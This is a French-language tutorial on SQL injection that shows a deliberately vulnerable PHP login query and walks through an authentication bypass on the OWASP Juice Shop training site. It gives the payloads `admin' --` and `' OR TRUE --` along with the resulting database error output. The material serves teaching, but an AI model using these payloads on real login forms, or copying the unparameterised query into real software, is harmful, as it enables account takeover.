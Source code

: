 # 2. Injection SQL

## En quoi consiste cette attaque ?

Comme son nom l'indique, elle consiste à injecter du code SQL dans une requête.

## Un exemple de code vulnérable en PHP

```php
$link = // ...

$username = $_POST["username"];
$password = $_POST["password"];

$sql = "SELECT id, username FROM users WHERE username = '$username' AND password = md5('$password')";
$result = mysqli_query($link, $sql);

if (mysqli_num_rows($result) > 0) {
    session_start();
    $_SESSION["loggedin"] = true;
}

mysqli_close($link);
```

Ici, on peut facilement se connecter sur n'importe quel compte en injectant du code SQL dans la variable `username`.

La première idée qui peut venir en tête est quelque chose du style `admin' --`. On récupère l'entrée avec le nom
d'utilisateur `admin` et on met en commentaire le reste du code SQL en utilisant `--` pour supprimer la vérification du mot de passe.

Ainsi, la requête SQL exécutée sera `SELECT id, username FROM users WHERE username = 'admin'`.

## Démonstration avec OWASP Juice Shop

> On se servira de ce site internet pour notre démonstration, <https://demo.owasp-juice.shop/#/login>.

Nous voici en face d'une page de login, où l'on doit s'identifier.

Pour ce faire, nous allons faire un peu la même chose que dans la section [précédente](#un-exemple-de-code-vulnérable-en-php).

### Inspection

Premièrement, nous allons ouvrir les outils de développeur de notre navigateur et inspecter les requêtes
qui sont émises pour s'authentifier. On va donc entrer un identifiant/mot de passe quelconque pour inspecter la requête.

On peut constater une requête POST vers `https://demo.owasp-juice.shop/rest/user/login`
avec le payload suivant:

```json
{
    "email": "test@example.org",
    "password": "12345678"
}
```

La réponse donne: `Invalid email or password.`

### Injection SQL

On peut tester si il y a une vulnérabilité SQL en tentant de faire une requête en mettant un `'` ou `"`
dans l'`email`.

Lorsque l'on fait une requête avec l'email: `'`, on obtient une réponse différente:

```json
{
    "error": {
        "message": "SQLITE_ERROR: unrecognized token: \"25d55ad283aa400af464c76d713c07ad\"",
        "stack": "Error....",
        "name": "SequelizeDatabaseError",
        "parent": {
            "errno": 1,
            "code": "SQLITE_ERROR",
            "sql": "SELECT * FROM Users WHERE email = ''' AND password = '25d55ad283aa400af464c76d713c07ad' AND deletedAt IS NULL"
        },
        "original": {
            "errno": 1,
            "code": "SQLITE_ERROR",
            "sql": "SELECT * FROM Users WHERE email = ''' AND password = '25d55ad283aa400af464c76d713c07ad' AND deletedAt IS NULL"
        },
        "sql": "SELECT * FROM Users WHERE email = ''' AND password = '25d55ad283aa400af464c76d713c07ad' AND deletedAt IS NULL",
        "parameters": {}
    }
}
```

Comme nous pouvons le voir, nous venons de créer une erreur dans la requête SQL. Ainsi,
nous savons maintenant que cette application est vulnérable à l'injection SQL.

Vu que l'on peut avoir la requête SQL complète dans l'erreur, on peut facilement
créer une injection qui nous permet de nous authentifier: `' OR TRUE --`

Ici, on utilise `'` pour sortir de la condition de l'email et on ajoute `OR TRUE` qui permet de
rendre la condition toujours vraie.

`--` est utilisé pour mettre en commentaire le reste de la requête SQL, ainsi la condition
finale dans le `WHERE` sera `email = '' OR TRUE` qui est donc toujours vrai.

### Avec quel compte sommes-nous identifié ?

On peut retourner dans le menu et voir que nous sommes identifié, par chance, sur le compte administrateur !

